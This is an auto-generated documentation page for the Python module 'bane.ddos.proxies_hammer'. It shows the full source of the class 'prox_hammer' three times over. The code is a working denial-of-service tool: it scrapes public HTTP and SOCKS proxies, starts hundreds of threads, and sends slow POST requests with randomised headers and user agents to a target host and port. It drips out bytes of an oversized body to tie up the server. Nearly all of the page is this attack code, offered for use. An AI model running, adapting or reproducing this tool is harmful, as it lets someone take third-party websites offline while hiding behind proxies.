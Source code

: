 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.proxies_hammer</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class prox_hammer(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        threads_daemon=True,
        scraping_timeout=15,
        max_content=15000,
        min_content=10000,
        threads=700,
        timeout=5,
        http_list=None,
        socks4_list=None,
        socks5_list=None,
        duration=60,
        logs=True,
    ):
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.httplist = http_list
        if not self.httplist and self.httplist != []:
            self.httplist = proxyscrape(timeout=scraping_timeout)
        self.socks4list = socks4_list
        if not self.socks4list and self.socks4list != []:
            self.socks4list = proxyscrape(protocol=&#39;socks4&#39;,timeout=scraping_timeout)
        self.socks5list = socks5_list
        if not self.socks5list and self.socks5list != []:
            self.socks5list = proxyscrape(protocol=&#39;socks5&#39;,timeout=scraping_timeout)
        self.stop = False
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.max_content = max_content
        self.min_content = min_content
        self.logs = logs
        self.counter = 0
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    bot_type = []
                    if len(self.httplist) &gt; 0:
                        bot_type.append(&#34;h&#34;)
                    if len(self.socks4list) &gt; 0:
                        bot_type.append(&#34;s4&#34;)
                    if len(self.socks5list) &gt; 0:
                        bot_type.append(&#34;s5&#34;)
                    z = random.choice(bot_type)
                    if z == &#34;h&#34;:
                        line = random.choice(self.httplist)
                    elif z == &#34;s4&#34;:
                        line = random.choice(self.socks4list)
                    elif z == &#34;s5&#34;:
                        line = random.choice(self.socks5list)
                    ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                    pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                    s = socks.socksocket()
                    if z == &#34;h&#34;:
                        s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                    elif z == &#34;s4&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                    elif z == &#34;s5&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                    if z == &#34;h&#34;:
                        s.settimeout(self.timeout)
                    s.connect((self.target, self.port))
                    self.counter += 1
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    q = random.randint(self.min_content, self.max_content)
                    ck = &#34;&#34;
                    if self.cookie:
                        ck = &#34;Cookie: &#34; + self.cookie + &#34;\r\n&#34;
                    s.send(
                        reorder_headers_randomly(
                            &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
                                random.choice(paths),
                                ck,
                                random.choice(self.user_agents),
                                random.randint(300, 1000),
                                q,
                                (
                                    random.choice(referers)
                                    + random.choice(lis)
                                    + str(random.randint(0, 100000000))
                                    + random.choice(lis)
                                ),
                                self.target,
                            )
                        ).encode(&#34;utf-8&#34;)
                    )
                    for i in range(q):
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        h = random.choice(lis)
                        try:
                            s.send(h.encode(&#34;utf-8&#34;))
                            if self.logs == True:
                                sys.stdout.write(&#34;\rPosted: {} --&gt; {}&#34;.format(h, ipp))
                                sys.stdout.flush()
                                # print(&#34;Posted: {} --&gt; {}&#34;.format(h,ipp))
                            time.sleep(random.uniform(0.1, 3))
                        except:
                            break
                    s.close()
                except:
                    pass
                self.counter -= 1
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.proxies_hammer.prox_hammer"><code class="flex name class">
<span>class <span class="ident">prox_hammer</span></span>
<span>(</span><span>u, p=80, cookie=None, user_agents=None, threads_daemon=True, scraping_timeout=15, max_content=15000, min_content=10000, threads=700, timeout=5, http_list=None, socks4_list=None, socks5_list=None, duration=60, logs=True)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class prox_hammer(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        threads_daemon=True,
        scraping_timeout=15,
        max_content=15000,
        min_content=10000,
        threads=700,
        timeout=5,
        http_list=None,
        socks4_list=None,
        socks5_list=None,
        duration=60,
        logs=True,
    ):
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.httplist = http_list
        if not self.httplist and self.httplist != []:
            self.httplist = proxyscrape(timeout=scraping_timeout)
        self.socks4list = socks4_list
        if not self.socks4list and self.socks4list != []:
            self.socks4list = proxyscrape(protocol=&#39;socks4&#39;,timeout=scraping_timeout)
        self.socks5list = socks5_list
        if not self.socks5list and self.socks5list != []:
            self.socks5list = proxyscrape(protocol=&#39;socks5&#39;,timeout=scraping_timeout)
        self.stop = False
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.max_content = max_content
        self.min_content = min_content
        self.logs = logs
        self.counter = 0
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    bot_type = []
                    if len(self.httplist) &gt; 0:
                        bot_type.append(&#34;h&#34;)
                    if len(self.socks4list) &gt; 0:
                        bot_type.append(&#34;s4&#34;)
                    if len(self.socks5list) &gt; 0:
                        bot_type.append(&#34;s5&#34;)
                    z = random.choice(bot_type)
                    if z == &#34;h&#34;:
                        line = random.choice(self.httplist)
                    elif z == &#34;s4&#34;:
                        line = random.choice(self.socks4list)
                    elif z == &#34;s5&#34;:
                        line = random.choice(self.socks5list)
                    ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                    pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                    s = socks.socksocket()
                    if z == &#34;h&#34;:
                        s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                    elif z == &#34;s4&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                    elif z == &#34;s5&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                    if z == &#34;h&#34;:
                        s.settimeout(self.timeout)
                    s.connect((self.target, self.port))
                    self.counter += 1
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    q = random.randint(self.min_content, self.max_content)
                    ck = &#34;&#34;
                    if self.cookie:
                        ck = &#34;Cookie: &#34; + self.cookie + &#34;\r\n&#34;
                    s.send(
                        reorder_headers_randomly(
                            &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
                                random.choice(paths),
                                ck,
                                random.choice(self.user_agents),
                                random.randint(300, 1000),
                                q,
                                (
                                    random.choice(referers)
                                    + random.choice(lis)
                                    + str(random.randint(0, 100000000))
                                    + random.choice(lis)
                                ),
                                self.target,
                            )
                        ).encode(&#34;utf-8&#34;)
                    )
                    for i in range(q):
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        h = random.choice(lis)
                        try:
                            s.send(h.encode(&#34;utf-8&#34;))
                            if self.logs == True:
                                sys.stdout.write(&#34;\rPosted: {} --&gt; {}&#34;.format(h, ipp))
                                sys.stdout.flush()
                                # print(&#34;Posted: {} --&gt; {}&#34;.format(h,ipp))
                            time.sleep(random.uniform(0.1, 3))
                        except:
                            break
                    s.close()
                except:
                    pass
                self.counter -= 1
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.proxies_hammer.prox_hammer.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                bot_type = []
                if len(self.httplist) &gt; 0:
                    bot_type.append(&#34;h&#34;)
                if len(self.socks4list) &gt; 0:
                    bot_type.append(&#34;s4&#34;)
                if len(self.socks5list) &gt; 0:
                    bot_type.append(&#34;s5&#34;)
                z = random.choice(bot_type)
                if z == &#34;h&#34;:
                    line = random.choice(self.httplist)
                elif z == &#34;s4&#34;:
                    line = random.choice(self.socks4list)
                elif z == &#34;s5&#34;:
                    line = random.choice(self.socks5list)
                ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                s = socks.socksocket()
                if z == &#34;h&#34;:
                    s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                elif z == &#34;s4&#34;:
                    s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                elif z == &#34;s5&#34;:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                if z == &#34;h&#34;:
                    s.settimeout(self.timeout)
                s.connect((self.target, self.port))
                self.counter += 1
                if (self.port == 443) or (self.port == 8443):
                    s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                q = random.randint(self.min_content, self.max_content)
                ck = &#34;&#34;
                if self.cookie:
                    ck = &#34;Cookie: &#34; + self.cookie + &#34;\r\n&#34;
                s.send(
                    reorder_headers_randomly(
                        &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: en-US,en,q=0.5\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
                            random.choice(paths),
                            ck,
                            random.choice(self.user_agents),
                            random.randint(300, 1000),
                            q,
                            (
                                random.choice(referers)
                                + random.choice(lis)
                                + str(random.randint(0, 100000000))
                                + random.choice(lis)
                            ),
                            self.target,
                        )
                    ).encode(&#34;utf-8&#34;)
                )
                for i in range(q):
                    if (
                        int(time.time() - self.start) &gt;= self.duration
                    ):  # this is a safety mechanism so the attack won&#39;t run forever
                        break
                    if self.stop == True:
                        break
                    h = random.choice(lis)
                    try:
                        s.send(h.encode(&#34;utf-8&#34;))
                        if self.logs == True:
                            sys.stdout.write(&#34;\rPosted: {} --&gt; {}&#34;.format(h, ipp))
                            sys.stdout.flush()
                            # print(&#34;Posted: {} --&gt; {}&#34;.format(h,ipp))
                        time.sleep(random.uniform(0.1, 3))
                    except:
                        break
                s.close()
            except:
                pass
            self.counter -= 1
            time.sleep(0.1)
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.proxies_hammer.prox_hammer" href="#bane.ddos.proxies_hammer.prox_hammer">prox_hammer</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.proxies_hammer.prox_hammer.attack" href="#bane.ddos.proxies_hammer.prox_hammer.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>
